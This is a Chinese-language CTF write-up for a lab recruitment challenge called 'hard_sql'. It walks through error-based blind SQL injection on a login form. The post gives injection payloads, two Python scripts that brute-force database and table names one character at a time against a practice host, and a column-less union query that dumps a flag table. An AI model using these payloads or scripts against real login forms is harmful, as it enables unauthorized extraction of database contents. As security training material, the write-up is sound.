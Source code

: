 ```yaml
---
layout: post 
title: "V1lu0实验室招新hard_sql writeup"
date: 2020-06-23
author: su29029
tags: Web
---
```


## 0x00 前置知识

1.sql盲注。    

2.sql语法中ascii()函数，substr()等字符串处理函数，case when分支结构等控制语句。   

3.python脚本编写能力。    

## 0x01 解题

首先拿到题目，给出了一个登录框，并提示后台做了过滤。这里依然先尝试万能密码。```admin' or 1=1 #```发现登录成功，但是只有Login Success，没有其他任何信息。```admin' #``` 发现提示something wrong.

由于只提示有错误而不说明错误内容，这里无法使用联合查询或报错注入。故考虑盲注。   

给出第一步payload：

```
?user=1' and case (ascii(substr(database(),1,1))) when '104' then pow(999,999) end %23pass=123
```

解释一下，substr(string, index, length)函数用于截取string字符串从index位开始长度为length的子串，ascii()函数用于将字符转换为ascii码，case (statement) when '..' then ..... when '..' then ..... end类似switch的用法，判断某个statement的值，如果满足下面when的某个条件就执行then后的语句。而pow(999,999)执行一定会报错（数据溢出）。故如果```ascii(substr(database(),1,1))```的值等于104的话，数据库会报错，回显something wrong.如果值不等于，则不执行，回显wrong username password.这样我们通过判断database()的每一位是否等于某个ascii码转换后的值，就可以得出数据库名。    

```python
import requests

for i in range(1, 10):
    for j in range(32, 127):
        payload = "?user=1' and case (ascii(substr(database(), {},1))) when '{}' then pow(999,999) end %23&pass=123".format(i, j)
        url = "http://v8.su29029.xyz:10010/index.php" + payload
        r = requests.get(url)
        # print(j, end = " ")
        if (r.text.find('Something wrong') != -1):
            print(chr(j))
```

最终得到数据库名```hard_sql```.   

下一步爆表名。第二步payload：   

```
?user=1' and case (ascii(substr((Select group_concat(table_name) from Information_schema.tables where table_schema="hard_sql"),1,1))) when '102' then pow(999,999) end %23pass=123
```

通过group_concat函数查询表名。   

```python
import requests

for i in range(1, 15):
    for j in range(32, 127):
        payload = "?user=1' and case (ascii(substr((Select group_concat(table_name) from Information_schema.tables where table_schema=\"hard_sql\"), {},1))) when '{}' then pow(999,999) end %23&pass=123".format(i, j)
        url = "http://v8.su29029.xyz:10010/index.php" + payload
        r = requests.get(url)
        # print(j, end = " ")
        if (r.text.find('Something wrong') != -1):
            print(chr(j))
```

最终得到所有数据表名```flag,users```.   

最后一步获取列名，但是发现column被过滤且无法绕过，故考虑无列名注入。   

先判断列数，仍然使用上述payload来判断。   

```
?user=1' and case (ascii(substr((Select `1` from (Select 1 union Select * from hard_sql.flag) as a limit 1,1), 1,1))) when '1000' then pow(999,999) end %23&pass=123
```

发现提示something wrong.说明列数错误(因为ascii码值不可能等于1000，但是报错了说明是前面语句出现问题，在没有语法错误的情况下只可能是列数错误)，故增加列数，最后发现一共有5列。因为使用如下payload时没有提示something wrong 而是 wrong username password.   

```
?user=1' and case (ascii(substr((Select `1` from (Select 1,2,3,4,5 union Select * from hard_sql.flag) as a limit 1,1), 1,1))) when '1000' then pow(999,999) end %23&pass=123
```

爆出该表的所有列的所有内容(一行一行来)：   

```
flag{{{{{{{
```

```
mini~~~
```

```
flag{this_is_not_a_flag}
```

```
ffllaagg{{}}
```

```
flag{sql_1s_s0_c00000001lllll!!!!!!}
```
最后一个是真正的flag。   
成功获得flag。   
